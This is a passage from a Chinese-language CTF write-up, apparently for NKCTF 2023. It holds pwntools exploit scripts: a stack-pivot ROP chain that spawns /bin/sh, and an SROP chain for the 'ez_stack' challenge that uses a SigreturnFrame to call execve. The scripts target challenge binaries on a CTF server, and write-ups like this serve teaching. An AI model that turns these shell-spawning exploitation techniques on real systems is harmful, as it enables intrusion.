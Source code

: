 ```python
    handle.recvuntil("> ")
    handle.sendline('4')
    handle.recvuntil("now, come and read my heart...")
    #gdb.attach(handle, "b *0x40139f")
    handle.send(payload[:0x20])

    payload = b'a'*2 + p64(elf.symbols['heart']) + p64(0x4050a0-0x10) + p64(leave_ret) # then pivot again, make sp point to 8 lower. now we get three 8bytes to rop and place holds binsh_str
    handle.recvuntil("now, come and read my heart...")
    handle.send(payload[:0x20])

    payload = b'aa/bin/sh\x00' + b'a'*(8) + p64(pop_rdi_ret) + p64(0x4050a0-0x8-0x8) # keep binsh_str align to 8
    handle.recvuntil("now, come and read my heart...")
    handle.send(payload[:0x20])
    handle.interactive()

io = remote("node2.yuzhian.com.cn", 38213)
p = process('./pwn')
solve(io)
```

# ez_stack

溢出，但没东西可用，没有write之类的泄露got地址，也没有能任意修改eax的系统调用，更没有可写可执行的内存页。

所以判断为srop的板子题，通过mov eax, 0xf; ret和syscall进行rt_sigreturn系统调用

[ez_stack](/assets/binary/2023-04-13-NKCTF22/ez_stack.zip)

```python
from pwn import *

#libc = ELF('./libc-2.23.so')
elf = ELF('./ez_stack')
io = remote("node2.yuzhian.com.cn", 39731)
p = process('./ez_stack')

context.log_level = 'debug'
context.os = 'linux'
context.arch = 'amd64'

#print(shellcraft.sh())
def solve(handle, debug=False):
    rop = ROP(elf)

    sigret = 0x401146

    frame = SigreturnFrame()
    frame.rax = constants.SYS_execve
    frame.rdi = 0x404020
    frame.rsi = 0
    frame.rdx = 0
    frame.rip = rop.syscall.address

    rop.raw(b'a'*(0x10+8))
    rop(rsi=0x404020)
    rop.call(0x4011ee)
    rop.raw(b'a'*8)
    rop.call(sigret)
    rop.call(rop.syscall.address)
    rop.raw(bytes(frame))
    print(rop.dump())
    handle.recvuntil('Welcome to the binary world of NKCTF!')
```